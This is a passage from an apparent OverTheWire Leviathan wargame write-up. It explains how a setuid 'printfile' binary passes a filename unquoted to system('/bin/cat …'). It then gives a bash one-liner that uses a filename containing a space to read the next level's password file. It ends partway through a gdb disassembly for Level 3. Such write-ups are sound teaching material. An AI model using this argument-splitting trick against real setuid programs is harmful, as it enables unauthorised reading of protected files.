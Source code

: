 ```c++
}
```

The important thing to note is if we pass the `access` check, our file will then be read by passing `/bin/cat filename` to system. If we look at the documentation for [access](https://linux.die.net/man/2/access), we see that the value `4` means it's checking if we have the read permission on a file. Also, since the suid bit is set, the command passed to `system` will be executed with `leviathan3`'s permissions.

The great thing about `cat` is that we can read multiple files at once by separating the filenames with a space. Conveniently enough, we are also allowed to have spaces in filenames. We can take advantage of these two things to create a filename, which we have read access to, with a space in it. However, when it is passed to `system`, it will try to read the filename as two separate files, which will allow us to read the password file as `leviathan3`.

```bash
file="/tmp/ leviathan3"; touch "$file"; cd /etc/leviathan_pass/; ~/printfile "$file"; rm "$file"
```

[*Back to top*](#overthewire---leviathan)

## Level 3

For this challenge, we have another suid binary, `level3`.

```bash
$ ls -la level3
-r-sr-x--- 1 leviathan4 leviathan3 10288 Aug 26  2019 level3
```

This time, when we disassemble main, we see an unusual function, `do_stuff`, being called. Let's see what's happening in `do_stuff`.

```bash
$ gdb -q level3
Reading symbols from level3...done.
(gdb) disassemble do_stuff
Dump of assembler code for function do_stuff:
   0x0804855b <+0>:     push   %ebp
   0x0804855c <+1>:     mov    %esp,%ebp
   0x0804855e <+3>:     push   %ebx
   0x0804855f <+4>:     sub    $0x114,%esp
   0x08048565 <+10>:    movl   $0x706c6e73,-0x113(%ebp)
   0x0804856f <+20>:    movl   $0x746e6972,-0x10f(%ebp)
   0x08048579 <+30>:    movw   $0xa66,-0x10b(%ebp)
   0x08048582 <+39>:    movb   $0x0,-0x109(%ebp)
   0x08048589 <+46>:    mov    0x804a040,%eax
   0x0804858e <+51>:    sub    $0x4,%esp
   0x08048591 <+54>:    push   %eax
   0x08048592 <+55>:    push   $0x100
   0x08048597 <+60>:    lea    -0x108(%ebp),%eax
   0x0804859d <+66>:    push   %eax
   0x0804859e <+67>:    call   0x80483f0 <fgets@plt>
   0x080485a3 <+72>:    add    $0x10,%esp
   0x080485a6 <+75>:    sub    $0x8,%esp
   0x080485a9 <+78>:    lea    -0x113(%ebp),%eax
   0x080485af <+84>:    push   %eax
   0x080485b0 <+85>:    lea    -0x108(%ebp),%eax
   0x080485b6 <+91>:    push   %eax
   0x080485b7 <+92>:    call   0x80483d0 <strcmp@plt>
   0x080485bc <+97>:    add    $0x10,%esp
   0x080485bf <+100>:   test   %eax,%eax
   0x080485c1 <+102>:   jne    0x80485fe <do_stuff+163>
   0x080485c3 <+104>:   sub    $0xc,%esp
   0x080485c6 <+107>:   push   $0x8048750
   0x080485cb <+112>:   call   0x8048410 <puts@plt>
   0x080485d0 <+117>:   add    $0x10,%esp
```